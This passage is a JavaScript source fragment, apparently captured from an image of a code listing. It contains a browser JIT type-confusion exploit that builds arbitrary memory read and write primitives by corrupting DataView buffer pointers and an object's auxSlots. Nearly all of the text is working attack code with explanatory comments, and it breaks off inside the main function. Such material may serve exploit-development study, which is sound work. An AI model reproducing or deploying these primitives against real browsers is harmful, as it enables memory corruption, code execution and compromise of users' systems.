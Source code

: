 ```html
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

```
